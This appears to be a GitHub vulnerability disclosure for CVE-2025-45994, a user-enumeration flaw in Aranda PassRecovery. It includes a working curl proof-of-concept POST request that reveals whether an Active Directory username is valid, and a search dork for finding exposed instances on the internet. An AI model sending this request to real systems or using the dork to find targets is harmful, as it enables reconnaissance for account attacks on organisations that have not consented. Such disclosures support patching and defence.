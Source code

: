 # *CVE-2025-45994: Enumeration users Active Directory in Aranda PassRecovery*

## Description
An issue in Aranda PassRecovery allows attackers to enumerate  
valid user accounts in Active Directory via sending a crafted POST  
request to /user/existdirectory/1.


## PoC
> 1.- To exploit the vulnerability, you must send a POST request with the Active Directory user to the endpoint: /APRAPI//api/v1/user/existdirectory/1 and it will respond whether it is valid or not.

```bash
curl -XPOST \
-H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36 Edg/134.0.3124.83' \
-d '"<user>"' -H 'Content-Type: application/json' -i https://<domain>/APRAPI//api/v1/user/existdirectory/1
```

## DuckDuckGo Dorking:
Link - [https://duckduckgo.com/?q=%22Aranda+PassRecovery%22+intext%3A%22Aranda+PassRecovery%22+-site%3A.arandasoft.com&t=h_](DuckduckgoDorking)
```
"Aranda PassRecovery" intext:"Aranda PassRecovery" -site:.arandasoft.com
```


## Vulnerability Type 
> User Enumeration - CWE 200


## Vendor of Product
> Aranda Software - [https://arandasoft.com](https://arandasoft.com/)


## Affected Product Code Base
> Aranda PassRecovery - Version 1

> URL spanish: https://web.archive.org/web/20250520233313/https://arandasoft.com/productos/service-management/password-recovery/

> URL english: https://arandasoft.com/en/productos/password-recovery/
